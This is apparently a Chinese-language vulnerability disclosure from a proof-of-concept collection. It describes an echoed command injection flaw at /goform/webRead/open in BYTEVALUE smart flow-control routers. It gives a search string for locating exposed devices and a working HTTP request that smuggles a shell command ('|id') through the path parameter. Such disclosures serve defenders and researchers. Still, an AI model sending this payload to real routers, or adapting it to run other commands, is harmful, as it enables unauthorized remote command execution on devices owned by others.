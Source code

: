 # 百为通达 智能流控路由器 open 远程命令执行漏洞

## 漏洞描述

BYTEVALUE 百为流控路由器是一款追求带宽利用率的多功能路由器。百为智能流控路由器 /goform/webRead/open 路由存在有回显的命令注入漏洞。

## 漏洞影响

<a-checkbox checked>百为通达 智能流控路由器</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"BYTEVALUE 智能流控路由器"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1697716809379-86fcce2c-7964-4db8-811d-1fe2afa6eb67.png)

验证POC

```php
GET /goform/webRead/open/?path=|id HTTP/1.1
Host:
```

![img](../../../.vuepress/public/img/1697716903116-72154798-e582-4d63-aa18-116685eeae4e.png)